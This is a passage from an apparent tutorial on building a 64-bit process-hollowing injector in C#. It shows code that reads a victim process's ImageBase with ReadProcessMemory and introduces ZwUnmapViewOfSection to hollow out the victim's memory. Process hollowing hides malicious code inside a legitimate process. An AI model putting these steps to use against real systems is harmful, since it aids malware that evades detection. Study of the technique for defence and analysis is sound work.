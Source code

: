 Then we can perform the read,
```cs
PInvoke.ReadProcessMemory(victimProcessHandle, victimImageBaseAddress, victimImageBase, 8, out _);
```

### nSize

The number of bytes to be read from the specified process.

For 32-bit applications, the `ImageBase` is 4 bytes whereas for 64-bit, its 8 bytes.

We will be reading 8 bytes as this injector is build to support for 64-bit applications.

### lpNumberOfBytesRead
A pointer to a variable that receives the number of bytes transferred into the specified buffer.

For simplicity, I will be ignoring this field by using `C#'s` discard variable, `_`.

## Code Example

```cs
ulong rdx = victimThreadContext.Rdx;
ulong victimImageBaseAddress = rdx + 16;
IntPtr victimProcessHandle = processInformation.hProcess;
IntPtr victimImageBase = Marshal.AllocHGlobal(8);
PInvoke.ReadProcessMemory(victimProcessHandle, victimImageBaseAddress, victimImageBase, 8, out _);
```

# Hollowing our Victim Process

Great! Now we have the victim's `ImageBase`. We are going to hollow out the victim's memory starting from its `ImageBase`.

We will be using the function `ZwUnmapViewOfSection`.

More details of it can be found [here](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwunmapviewofsection).

```cpp
NTSYSAPI NTSTATUS ZwUnmapViewOfSection(
  HANDLE ProcessHandle,
  PVOID  BaseAddress
);
```

## ZwUnmapViewOfSection Parameters

### ProcessHandle

Previously, we called the `CreateProcessA` function. This function helps fill up our `PROCESS_INFORMATION` block.

`PROCESS_INFORMATION` contains the handle to our victim process.
